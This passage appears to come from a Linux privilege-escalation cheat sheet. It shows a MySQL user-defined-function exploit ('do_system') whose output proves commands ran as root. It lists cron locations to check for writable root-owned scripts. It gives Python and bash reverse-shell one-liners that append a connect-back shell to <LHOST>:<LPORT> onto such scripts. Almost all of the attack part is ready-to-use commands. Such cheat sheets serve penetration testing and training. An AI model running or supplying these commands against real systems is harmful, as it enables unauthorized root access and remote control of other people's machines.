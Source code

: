 **File read:**

```
mysql> select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
+----------------------------------------------------------------------+
| do_system('id > /var/www/out; chown www-data.www-data /var/www/out') |
+----------------------------------------------------------------------+
|                                                                    0 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> \! sh          
\! sh
$ cat /var/www/out
cat /var/www/out
uid=0(root) gid=114(mysql) groups=114(mysql)
``` 

##

**Cronjob tricks:**

Always check CRONJOBS:

```
# /etc/cron*
# /etc/init.d
# /etc/crontab                <- System wide cron job
# /etc/cron.allow
# /etc/cron.d
# /etc/cron.daily
# /etc/cron.hourly
# /etc/cron.monthly
# /etc/cron.weekly
# /var/spool/cron             <- User crontabs
# /var/spool/cron/crontabs    <- User crontabs
```

If there's a writable root-owned script, ``.py``, ``.sh``, etc:

Python one-liner reverse shell:

```
# echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> <FILE>.py
```

Bash one-liner reverse shell:

```
# echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <LHOST> <LPORT> > /tmp/f" >> <FILE>.sh
```

##
